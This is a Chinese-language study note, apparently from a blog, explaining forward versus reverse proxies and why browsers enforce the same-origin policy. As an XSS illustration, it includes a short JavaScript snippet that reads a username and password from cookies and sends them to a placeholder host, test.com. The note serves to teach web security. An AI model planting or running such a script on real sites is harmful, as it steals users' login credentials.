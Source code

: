 

## 正向代理

`客户端client`与`代理服务器proxy`处于同一个局域网，就是正向代理
`服务器server`与`代理服务器proxy`处于同一局域网，就是反向代理



- 正向代理是代理客户端
- 反向代理是代理服务器



- 正向代理隐藏真实客户端

- 反向代理隐藏真实服务端

  



## 跨域

为什么会有跨域问题



首先，跨域说白了就是访问其他域名（区别于当前域名）的资源

那为什么不允许呢？

是因为浏览器为了保证安全而设置的同源策略/SOP（Same origin policy）



如果缺少了同源策略，浏览器很容易受到XSS、CSFR等攻击



举个例子：

假定有一个交流论坛

![image-20230201094007070](https://picgo-freejim.oss-cn-beijing.aliyuncs.com/image-20230201094007070.png)



有用户在评价里写了恶意代码

那么，在其他用户浏览评论的时候就完蛋了

```js
var username=CookieHelper.getCookie('username').value;
var password=CookieHelper.getCookie('password').value;
var script =document.createElement('script');
script.src='http://test.com/index.php?username='+username+'&password='+password;
document.body.appendChild(script);
```

几句简单的javascript，获取cookie中的用户名密码，利用jsonp把向 [http://test.com/index.php](https://links.jianshu.com/go?to=http%3A%2F%2Ftest.com%2Findex.php)

发送了一个get请求
